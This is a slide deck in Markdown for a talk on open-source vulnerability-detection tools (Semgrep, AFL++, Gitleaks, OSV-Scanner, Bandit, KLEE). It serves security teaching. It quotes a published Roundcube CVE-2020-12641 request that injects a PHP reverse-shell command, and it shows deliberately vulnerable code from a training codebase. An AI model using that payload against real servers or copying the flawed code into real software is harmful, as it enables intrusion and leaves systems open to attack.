



<style>
@import url('https://fonts.googleapis.com/css2?family=Lora:ital,wght@0,400..700;1,400..700&display=swap');

:root {
  font-family: "Lora", serif;
}

img[alt~="center"] {
  display: block;
  margin: 0 auto;
}

blockquote {
    font-size: 60%;
    margin-top: auto;
}
</style>

<center>


# The Open Source Fortress

</center>

---

## @iosifache

* Ex-builder at MutableSecurity
* Ex-security engineer @ Romanian Army and Canonical
* Security engineer in Snap Inc.
* Open source maintainer
* GSoC mentor for OpenPrinting
* Enthusiast of good coffee, long runs/hikes, and quality time

---


<!--

- Example
- Roundcube

-->

---

## Roundcube Webmail

* Browser-based IMAP client
* ["It provides full functionality you expect from an email client."](https://roundcube.net/about/)

---


<!--

- Trying to gauge the adoption of the tool
- Steady increase of stars

-->

---


<!--

- Shodan as a search engine for computers on the Internet
- By using a query, 161k were discovered

-->

---

```bash
$ git clone https://github.com/roundcube/roundcubemail
[...]
$ cd roundcubeemail
$ scc . | head -8
───────────────────────────────────────────────────────────────────────────────
Language                 Files     Lines   Blanks  Comments     Code Complexity
───────────────────────────────────────────────────────────────────────────────
PHP                        526    123939    18225     28447    77267      13323
SQL                        110      2642      419       238     1985          0
JavaScript                 100     29353     3617      2800    22936       4827
HTML                        50      2738      304        31     2403          0
Shell                       21      2432      345        50     2037        323
```

<!--

- PHP, SQL, JS, and HTML as top most used programming languages

-->

---


<!--

- Familiar for homelabbers
- The web installation page of Roundcube
- Plug the details in the browser and they will be stored on the server

-->

---


<!--

- If the instance is exposed on the Internet, then anyone can set the details.

-->

---

## Q: What are we missing here?

<!--

- Can you spot the missing steps?

-->


---

## A: Input sanitisation

* The attacker sends a `POST` request to the installer:

  ```
  POST /roundcube/installer/index.php HTTP/1.1
  Host: 192.168.243.153
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 1049

  _step=2&_product_name=Roundcube+Webmail&***TRUNCATED***&submit=UPDATE+CONFIG&
  _im_convert_path=php+-r+'$sock%3dfsockopen("127.0.0.1",4444)%3b
  exec("/bin/bash+-i+<%263+>%263+2>%263")%3b'+%23
  ```

* The attacker sends an email containing an image of non-standard format.
* Roundcube will try to convert the image to JPG.
* The command stored in `_im_convert_path` will be executed.
* The attacker will have a reverse shell.

> From [DrunkenShells's `Disclosures` repository](https://github.com/DrunkenShells/Disclosures/tree/master/CVE-2020-12641-Command%20Injection-Roundcube)

<!--

- For example, TIFF

-->

---

## [CVE-2020-12641](https://nvd.nist.gov/vuln/detail/CVE-2020-12641)

* Many unsanitized configuration items (e.g., `_im_convert_path`)
* Arbitrary code execution
* 9.8 CVSS
* 8.12% EPSS (as per 12 March 2024)
* [Used by APT28 to compromise Ukrainian organisations' servers](https://securityaffairs.com/147681/apt/apt28-hacked-roundcube-ukraine.html)
* Added by CISA in the [Known Exploited Vulnerabilities Catalogue](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)

---

<!-- _class: lead -->

## But ... Was it preventable?

---

<!-- _class: lead -->

## Yes, but ..

---

<!-- _class: lead -->

## Not with standard linters or scanners

---

```php
private static function getCommand($opt_name)
{
    static $error = [];

    $cmd = rcube::get_instance()->config->get($opt_name);

    if (empty($cmd)) {
        return false;
    }

    if (preg_match('/^(convert|identify)(\.exe)?$/i', $cmd)) {
        return $cmd;
    }

    // Executable must exist, also disallow network shares on Windows
    if ($cmd[0] != "\\" && file_exists($cmd)) {
        return $cmd;
    }

    if (empty($error[$opt_name])) {
        rcube::raise_error("Invalid $opt_name: $cmd", true, false);
        $error[$opt_name] = true;
    }

    return false;
}
```

> From [`program/lib/Roundcube/rcube_image.php`](https://github.com/roundcube/roundcubemail/blob/ecaada40307f79f3e99c2e83a9de176f85525aeb/program/lib/Roundcube/rcube_image.php#L502)

<!--

- The reason: custom function which are not known by default by the standard tools

-->

---

## Taint analysis

* Following the program's execution flow and looking for:
    * Attacker-controlled data: `rcube::get_instance()->config`
    *  Sensitive sink: `return`

---

```yaml
rules:
  - id: return-unsanitised-config
    languages:
      - php
    message: A value taken from the configuration is returned without sanitisation.
    mode: taint
    pattern-sources:
      - patterns:
        - pattern: rcube::get_instance()->config->get($KEY);
    pattern-sanitizers:
      - pattern: escapeshellcmd(...)
    pattern-sinks:
    - patterns:
      - pattern-regex: "return"
    severity: ERROR
```

> A Semgrep rule using [taint tracking](https://semgrep.dev/docs/writing-rules/data-flow/taint-mode)

<!--

- Approach for detecting if the configuration is returned

-->

---

<style scoped>
strong {
    color: red;
}

</style>
<pre><code>
private static function getCommand($opt_name)
{
    static $error = [];

    $cmd = rcube::get_instance()->config->get($opt_name);

    if (empty($cmd)) {
        return false;
    }

    if (preg_match('/^(convert|identify)(\.exe)?$/i', $cmd)) {
        <strong>return $cmd;</strong>
    }

    // Executable must exist, also disallow network shares on Windows
    if ($cmd[0] != "\\" && file_exists($cmd)) {
        <strong>return $cmd;</strong>
    }

    [...]
}
</code></pre>

<!--

- Seeing later how can we run Semgrep
- Errors generated for the lines in red

-->

---

## The Open Source Fortress

* [ossfortress.io](https://ossfortress.io)
* Collection of OSS tools that can be used to proactively detect vulnerabilities
* Structure
  * Factual information
    - General software and **software security topics**
    - **Brief presentation of each analysis technique**
  * **Practical examples for analysing a vulnerable codebase**
    - Infrastructure and access
    - Documentations
    - Proposed solutions

---

## But why open source?

* Second layer of security when used with paid products
* Replacement for paid products
* Lower engineering effort compared with in-house solutions
* Default collaboration

<!--

Let's tackle the elephant in the room.

-->

---


---

# Defensive activities

* Vulnerability research
    * CVSS approximation: [`AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H`](https://nvd.nist.gov/vuln/detail/CVE-2021-44228#cvssVulnDetailBtn)
    * CWE approximation: [`CWE-502`](https://cwe.mitre.org/data/definitions/502.html)
    * CVE ID request: [`CVE-2021-44228`](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
* Patching: [The patches from Oracle](https://www.oracle.com/security-alerts/cpuapr2022.html)
* Communication with the stakeholders: [The Apache remediation guide](https://logging.apache.org/log4j/2.x/security.html)

> The examples are from the Log4Shell vulnerability in Log4j.

<!--

- Log4j
- CVSS of 10 (critical)
- CWE-502: Deserialization of Untrusted Data
- Links in the presentation, which will be accessible after the conference

-->

---

# Offensive activities

* Exploit writing
    * Attack vector: through VMware Horizon
    * Mitigation bypass: [`T1036.004`](https://attack.mitre.org/versions/v11/techniques/T1036/004/)
    * Weaponisation: [`T1573.001`](https://attack.mitre.org/versions/v11/techniques/T1573/001/)
* Exploitation

> As reported by CISA in [AA22-174A](https://www.cisa.gov/news-events/cybersecurity-advisories/aa22-174a)

<!--

- Identifiers from MITRE ATT&CK matrix
- Symetrically-encrypted channel communication
- Mimiking a legit service

-->

---

## Sand Castle

* Vulnerable-by-design codebase
* "*lightweight piece of software that runs on a Debian-based server and allows users to control it through their browsers*"
* On-premise deployment
* Written in Python and C
* 12+ embedded vulnerabilities

<!--

- Vulnerable-by-design
  - WebGoat
  - Damn Vulnerable Web Application
  - CloudGoat
- Vulnerabilities in dependencies

-->

---

<center>
  <a href="https://www.youtube.com/v/WHi-5XMa2rQ">
    <iframe width="960" height="560" src="https://www.youtube.com/embed/WHi-5XMa2rQ?si=Jj_c7AciavJIOqDD&amp;controls=0" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>
  </a>
</center>

---



---


<!--

- Picture perfectly illustrating:
    - An asset: the food
    - A threat to our asset: the cat
    - Threat modelling: being inspired enough to assume that the cat will attack when we open the fridge

-->

---

## Threat modelling

* Identifying asset and threats
  * What we need to defend?
  * What can go wrong?
* Legal requirement (e.g., USA and Singapore)

<!--

- Advantages
    - Secure by design
    - Prioritisation
    - Stakeholder confidence booster

-->

---

<center>
  <a href="https://www.youtube.com/v/R99il2vnZMQ">
    <iframe width="960" height="560" src="https://www.youtube.com/embed/R99il2vnZMQ?si=6YsA-HqSdYdzaA8d&amp;controls=0" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>
  </a>
</center>

<!--

- The first open source tool: OWASP Threat Dragon
- Video illustrating how easy it is to model the system and map the threats

-->

---

## OWASP Threat Dragon

* Threat modelling tool backed by OWASP
* Usual process
  1) Threat model creation
  2) Diagram creation: STRIDE, CIA
  3) Asset representation: stores, process, actor, data flow, trust boundaries
  4) Manual threat identification, with type, status, score, priority, description, and mitigation

---


<!--

- Remembering this image?
- The search scene from "Matrix"
- The next discussed technique: searching in the code, namely "code querying"

-->

---

## Code querying

* Searching a specific pattern in the codebase
* Optional abstract representation of the codebase
  * Abstract syntax trees
  * Control flow graphs
* Query types
  * Literals: `scanf`
  * Regex: `scanf\(.*\)`
  * Data structures: `({cpg.method("(?i)scanf").callIn}).l` in Joern's [CPGQL](https://joern.io/)
* Community queries (but generic)

<!--

- Data structures specific to the abstract representation

-->

---



> From [Trail of Bit's "Fast and accurate syntax searching for C and C++"](https://blog.trailofbits.com/2022/12/22/syntax-searching-c-c-clang-ast/)

<!--

- Just look at this image!
- How a compiler or another program understands the source code
- AST
- What is we have a way to query it?
- E.g., "all calls to logging functions where secrets are exposed"

-->

---

```bash
$ pip install semgrep
```

<!--

- For this, we have Semgrep.
- Straight-forward installation

-->

---

```yaml
rules:
- id: secret-logging
    patterns:
    - pattern-either:
        - pattern: $LOGGING_LIB.$METHOD(..., $MESSAGE, ...)
    - metavariable-pattern:
        metavariable: $LOGGING_LIB
        patterns:
            - pattern-either:
                - pattern: logging
                - pattern: logger
    - metavariable-pattern:
        metavariable: $MESSAGE
        patterns:
            - pattern-either:
                - pattern: <... password ...>
                - pattern: <... token ...>
            - pattern-not: |
                "..."

[...]
```

---

```bash
$ semgrep scan                              \
  --sarif                                   \
  --config ~/analysis/semgrep-rules         \
  --output ~/analysis/semgrep.custom.sarif  \
  ~/codebase/sandcastle/sandcastle
```

---

```
┌─────────────┐
│ Scan Status │
└─────────────┘
  Scanning 17 files (only git-tracked) with 4 Code rules:

[...]             

┌──────────────┐
│ Scan Summary │
└──────────────┘
Some files were skipped or only partially analyzed.
  Scan was limited to files tracked by git.

Ran 4 rules on 11 files: 9 findings.
```

---

```python
[...]

logging.info(
    f"Authenticating user with credentials: {username}:{password}"
)

[...]
```

---

## Semgrep

* (Partially) open-source code scanner
* Support for 30+ programming languages
* No prior build requirements
* No DSL for rules
* Default or third-party rules

---


<!--

- This is another classic.
- Guesses?
- Idiocracy from 2005 in which the people are dumb enough to use brute-force to solve a childish game of matching shapes and holes
- What is we use the same brute force approach?

-->

---

## Fuzzing

* Running a program and offering random, unexpected inputs
* A crash = a security issue
  * `*NULL`
  * Sanitizers: ASan, UBSan, etc.
* BFS traversal of the CFG
* Optimisations

<!--

- Optimisation
  - Instrumenting the source code
  - Knowing the input format
  - Defining the states
  - Testing all input streams

-->

---


> From [AdaCore's "Finding Vulnerabilities using Advanced Fuzz testing and AFLplusplus v3.0"](https://blog.adacore.com/advanced-fuzz-testing-with-aflplusplus-3-00)

---

```bash
$ docker exec -it aflplusplus/aflplusplus /bin/bash
```

<!--

- Open source tool for this: AFL++

-->

---

```c
int main(int argc, char *argv[]) {
  int length, read_length;
  char *buffer, *filename;

  if (argc != 2){
    return 1;
  }

  filename = argv[1];
  FILE * f = fopen (filename, "rb");

  fseek (f, 0, SEEK_END);
  length = ftell (f);
  fseek (f, 0, SEEK_SET);
  buffer = malloc (length);
  fread (buffer, 1, length, f);
  fclose (f);

  generate_recovery_token(buffer + 4, buffer);

  return 0;
}
```

<!--

- Trying to fuzz the generate_recovery_token function
- Developing a harness that does ...

-->

---

```bash
$ AFL_USE_ASAN=1 /AFLplusplus/afl-cc            \
  -g                                            \
  -o crash_me_if_u_can.elf                      \
  generate_recovery_token.c sha256.c harness.c
```

<!--

- Compile step

-->

---

```bash
$ afl-fuzz                              /
  -i ~/analysis/afl++/c_modules/inputs  /
  -o ~/analysis/afl++/c_modules/outputs /
  --                                    /
  ./crash_me_if_u_can.elf @@
```

---

```bash
    american fuzzy lop ++4.09a {default} (./crash_me_if_u_can.elf) [fast]
┌─ process timing ────────────────────────────────────┬─ overall results ────┐
│        run time : 0 days, 0 hrs, 0 min, 0 sec       │  cycles done : 0     │
│   last new find : none seen yet                     │ corpus count : 1     │
│last saved crash : 0 days, 0 hrs, 0 min, 0 sec       │saved crashes : 1     │
│ last saved hang : none seen yet                     │  saved hangs : 0     │
├─ cycle progress ─────────────────────┬─ map coverage┴──────────────────────┤
│  now processing : 0.2 (0.0%)         │    map density : 26.79% / 26.79%    │
│  runs timed out : 0 (0.00%)          │ count coverage : 5.27 bits/tuple    │
├─ stage progress ─────────────────────┼─ findings in depth ─────────────────┤
│  now trying : havoc                  │ favored items : 1 (100.00%)         │
│ stage execs : 151/459 (32.90%)       │  new edges on : 1 (100.00%)         │
│ total execs : 173                    │ total crashes : 1 (1 saved)         │
│  exec speed : 99.88/sec (slow!)      │  total tmouts : 19 (0 saved)        │
├─ fuzzing strategy yields ────────────┴─────────────┬─ item geometry ───────┤
│   bit flips : disabled (default, enable with -D)   │    levels : 1         │
│  byte flips : disabled (default, enable with -D)   │   pending : 0         │
│ arithmetics : disabled (default, enable with -D)   │  pend fav : 0         │
│  known ints : disabled (default, enable with -D)   │ own finds : 0         │
│  dictionary : n/a                                  │  imported : 0         │
│havoc/splice : 1/12, 0/0                            │ stability : 100.00%   │
│py/custom/rq : unused, unused, unused, unused       ├───────────────────────┘
│    trim/eff : 20.00%/1, disabled                   │          [cpu001:350%]
└─ strategy: explore ────────── state: started :-) ──┘
```

<!--

- A bug is found in the first iterations.

-->

---

```c
[...]

server_recovery_passphrase = getenv("SANDCASTLE_RECOVERY_PASSPHRASE");
if (server_recovery_passphrase == NULL)
  return NULL;

passphrase_len = strlen(server_recovery_passphrase) - 1;

buf = (BYTE *)malloc(SHA256_BLOCK_SIZE * sizeof(BYTE));
if (!buf)
  return NULL;

// Prevent buffer overflow by allocating more
hashed_len = length + passphrase_len;
hashed = (BYTE *)malloc(10 * hashed_len * sizeof(BYTE));
if (!hashed){
  free(buf);

  return NULL;
}

strcpy(hashed, server_recovery_passphrase);
strcpy(hashed + passphrase_len, data);

[...]
```

<!--

- If we use a debugger for checking why the program crashed, then we reach this function.
- Fixed size of the buffer, but user controlled length

-->

---

## AFL++

* An [American Fuzzy Lop (AFL)](https://github.com/google/AFL) fork
* Additional features compared to AFL
  - QEMU emulation
  - Persistent mode
  - Optimisations
* Embedded in [Google's OSS-Fuzz](https://google.github.io/oss-fuzz/)

---


<!--

- There was a habit to hide the keys.
- In the most visible place possible.
- An experience thief will try to initially search in this place.
- What if we try to do the same with the secrets that can be embedded in code?

-->

---

## Secret scanning

* Secrets
  - API keys
  - Credentials 
  - Tokens
* Searching for specific patterns or entropy for a secret
* Community (generic) rules

---

Download a binary from [the GitHub releases](https://github.com/gitleaks/gitleaks/releases).

---

```bash
$ gitleaks                                \
  --no-banner                             \
  detect                                  \
  --report-format sarif                   \
  --source ~/codebase                     \
  --report-path ~/analysis/gitleaks.sarif \
  --redact
```

---

```bash
5:48PM INF 68 commits scanned.
5:48PM INF scan completed in 196ms   
5:48PM WRN leaks found: 5
```

---

```python
[...]

app = Flask(__name__)

app.secret_key = (
    b"192b9bdd22ab9ed4d12e236c78afcb9a393ec15f71bbf5dc987d54727823bcbf"
)

LOG_LOCATION = "/var/log/sandcastle.log"

[...]
```

---

## Gitleaks

* Detector for hard-coded secrets 
* Analysis of the entire Git history
* Support for baselines and custom formats of secrets

---


> ["You would be wise to surrender" - Darth Vader](#others)

<!--

- XKCD meme illustrating a chain of dependencies, which is familiar as a concept to us

-->

---


<!--

- If you are in the Python or Node.js ecosystem, you'll have a similar tree of dependencies.
- What is one vulnerability appears in a dependency?
- Is our software vulnerable because it depends on that package?
- The short answer: no
- Maybe our software doesn't trigger the vulnerability.
- But how can we detect these vulnerabilities?

-->

---

## Dependency scanning

* Iterating through all dependencies for finding their vulnerabilities
* Usage of the dependencies declaration list

---

Download a binary from [the GitHub releases](https://github.com/google/osv-scanner/releases).

---

```bash
$ osv-scanner                                     \
  --lockfile ~/codebase/sandcastle/poetry.lock 
```

---

```bash
Scanned ~/codebase/sandcastle/poetry.lock file and found 23 packages
╭─────────────────────────────────────┬──────┬───────────┬──────────┬─────────┬─────────────────────────────────╮
│ OSV URL                             │ CVSS │ ECOSYSTEM │ PACKAGE  │ VERSION │ SOURCE                          │
├─────────────────────────────────────┼──────┼───────────┼──────────┼─────────┼─────────────────────────────────┤
│ https://osv.dev/GHSA-56pw-mpj4-fxww │      │ PyPI      │ pillow   │ 9.5.0   │ codebase/sandcastle/poetry.lock │
│ https://osv.dev/GHSA-j7hp-h8jx-5ppr │ 8.8  │ PyPI      │ pillow   │ 9.5.0   │ codebase/sandcastle/poetry.lock │
│ https://osv.dev/PYSEC-2023-175      │      │ PyPI      │ pillow   │ 9.5.0   │ codebase/sandcastle/poetry.lock │
│ https://osv.dev/GHSA-hrfv-mqp8-q5rw │ 8    │ PyPI      │ werkzeug │ 3.0.0   │ codebase/sandcastle/poetry.lock │
│ https://osv.dev/PYSEC-2023-221      │      │           │          │         │                                 │
╰─────────────────────────────────────┴──────┴───────────┴──────────┴─────────┴─────────────────────────────────╯
```

---

```toml
[...]

[tool.poetry.dependencies]
python = "^3.10"
Flask = "^2.3.3"
python-pam = "^2.0.2"
six = "^1.16.0"
pillow = "^9.5.0"

[...]
```

---

```
10.0.1 (2023-09-15)

    Updated libwebp to 1.3.2 #7395 [radarhere]
    Updated zlib to 1.3 #7344 [radarhere]
```

---


---

## OSV-Scanner

* Client for [Google's OSV database](https://osv.dev), which embeds:
  - [GitHub Security Advisories](https://github.com/advisories)
  - [PyPA](https://github.com/pypa/advisory-database)
  - [RustSec](https://rustsec.org/advisories/)
  - [Global Security Database](https://github.com/cloudsecurityalliance/gsd-database)
* Support for ignored vulnerabilities

---
 


> ["You would be wise to surrender" - Darth Vader](#others)

<!--

- Last section
- Standards for car safety
- Executing a bunch of checks that the car should partially or fully pass
- The same concept is applied in linting.

-->

---

## Linting

* Static analysis for finding issues before compiling/running the code
* Issues
  - Formatting
  - Grammar (for example, non-inclusive expressions)
  - Security

---

```bash
$ pip install bandit
```

---

```bash
$ bandit                                          \
  --recursive ~/codebase/sandcastle/sandcastle/   \
  --format sarif                                  \
  --o ~/analysis/bandit.sarif
```

---

```bash
[main]  INFO    profile include tests: None
[main]  INFO    profile exclude tests: None
[main]  INFO    cli include tests: None
[main]  INFO    cli exclude tests: None
[main]  INFO    running on Python 3.11.6
[formatter]     INFO    SARIF output written to file: /home/iosifache/analysis/bandit.sarif
```

---

```python
[...]
for tarinfo in tar:
    name = tarinfo.name
    if tarinfo.isreg():
        try:
            filename = f"{extract_dir}/{name}"
            os.rename(os.path.join(tmp, name), filename)

            continue
        except Exception:
            pass

    os.makedirs(f"{extract_dir}/{name}", exist_ok=True)
[...]
```

---

## Bandit

* Linter for Python
* Abstract syntax tree representation of the code
* Custom modules for:
  - Patterns of suspicious code
  - Deny lists of imports and function calls
  - Report generation
* Support for baselines

---


> ["You would be wise to surrender" - Darth Vader](#others)

<!--

- Another section, another movie
- Maze Runner, in which they should run in a maze to initially map, and then escape it
- If we think about our programs as some mazes that we try to solve, then we can directly use the same concept.

-->

---

## Symbolic execution for taint analysis

* Investigating all CFG paths by replacing the concrete values with symbolic ones
* Components
  * Sources
  * Sinks
  * Patterns
* Path explosion problem

---

<style>
    div.twocols {
        margin-top: 35px;
        column-count: 2;
    }

    div.twocols p:first-child,
    div.twocols h1:first-child,
    div.twocols h2:first-child,
    div.twocols ul:first-child,
    div.twocols ul li:first-child,
    div.twocols ul li p:first-child {
        margin-top: 0 !important;
    }

    div.twocols p.break {
        break-before: column;
        margin-top: 0;
    }
</style>

<div class="twocols">

```c
int f(int a, int b){
    int x = 1, y = 0;

    if (a != 0) {
        y = x + 3;
        if b == 0 {
            x = 2 * (a + b);
        }
    }

    return (a + b) / (x - y);
}
```

<p class="break"></p>


</div>

> From [symflower's "What is symbolic execution for software programs"](https://symflower.com/en/company/blog/2021/symbolic-execution/)

<!--

- Considering the program on left
- The right part is what a symbolic execution engine will see.

-->

---

```bash
$ docker exec -it klee/klee /bin/bash
```

---

```c
int main() {
  char re[10];
  int count;

  klee_make_symbolic(re, sizeof re, "re");
  re[9] = '\0';

  klee_make_symbolic(&count, sizeof(int), "count");

  generate_recovery_token(re, count);

  return 0;
}
```

<!--

- The same function we fuzzed before.
- Marking the `re` buffer and the `count` variable as symbolic
- Calling the `generate_recovery_token` function again

-->

---

```bash
$ clang               \
  -emit-llvm          \
  -c                  \
  -g                  \
  -O0                 \
  -Xclang             \
  -disable-O0-optnone \
  -I .                \
  source.c            \
  -o source.bc
```

---

```bash
$ klee source.bc
```

---

```
[...]
KLEE: NOTE: found huge malloc, returning 0
KLEE: ERROR: source.c:216: concretized symbolic size
KLEE: NOTE: now ignoring this error at this location
KLEE: WARNING ONCE: calling external: strcpy(94204336258496, 94204335341000) at source.c:224 10
KLEE: ERROR: source.c:118: memory error: out of bound pointer
KLEE: NOTE: now ignoring this error at this location
[...]
```

---

# KLEE

* Generic symbolic execution with security use cases
* Built on [LLVM](https://llvm.org/)

> Thanks, [Cristian Cadar](https://www.doc.ic.ac.uk/~cristic/)!

---

<a id="others"></a>

## Other techniques

<!-- Keep this content synced with "wiki/docs/Other techniques.md" -->

* Stress/load testing
  - [JMeter](https://github.com/apache/jmeter) for many protocols and services
  - [`k6`](https://github.com/grafana/k6) for Kubernetes
* Web dynamic analysis
  - [OWASP's Zed Attack Proxy](https://github.com/zaproxy/zaproxy)

---


<!--

- Every engineering linking some automation

-->

---

## Security tooling automation

<!-- Keep this content synced with "wiki/docs/Security tooling automation.md" -->

* [SARIF Multitool](https://github.com/microsoft/sarif-sdk/blob/main/docs/multitool-usage.md) for performing operations with SARIF files (merging, paging, querying, supressing, etc.)
* [Make](https://www.gnu.org/software/make/) and [Poe the Poet](https://github.com/nat-n/poethepoet) for running tasks
* IDE workflows (e.g., [VSCode tasks](https://code.visualstudio.com/Docs/editor/tasks)) for running the tooling while coding
* [`pre-commit`](https://github.com/pre-commit/pre-commit) for managing Git pre-commit hooks
* [`act`](https://github.com/nektos/act) or [GitLab Runner](https://docs.gitlab.com/runner/install/) for running CI/CD workflows locally
* [GitHub Actions](https://docs.github.com/en/actions) or [GitLab pipelines](https://docs.gitlab.com/ee/ci/) for running CI/CD workflows

---


<!--

- Wrapping the presentation
- Familiar with the term "Ubuntu"
- But the word have yet another meaning, being a South African ethical concept

-->

---

<blockquote>
  <p style="font-size: 32pt">
    "<b><i>Ubuntu does not mean that people should not address themselves, the question, therefore, is, are you going to do so in order to enable the community around you to be able to improve.</i></b>" - <a href="https://www.youtube.com/watch?v=HED4h00xPPA">Nelson Mandela</a>
  </p>
</blockquote>

<!--

- Interview with Nelson Mandela
- In the open source space, there are multiple ways in which one can help.

-->

---



---

## Do security-focused work!

* Create a threat model.
* Do a security review and report your findings.
* Implement new security mitigations.
* Propose or backport patches.
* Create new workflows for security scanning.
* Integrate the project in OSS-Fuzz.

---


---

## Support!

* Give it a GitHub star.
* Share it with your friends or followers.
* Write a short feedback email to the maintainers.

---


<!--

- As mentioned at the beginning, these are not SotAs, so there is a lot of space for improvement.
- In this way, I can bet that the whole community will be grateful for your work.

-->

---

<center><h1><a href="https://ossfortress.io"><code>ossfortress.io</code></a></h1></center>

<!--

- If there is a single thing that I want you to remember is this website.
- One can find there the presentation, exercises, a cheatsheet and more.

-->
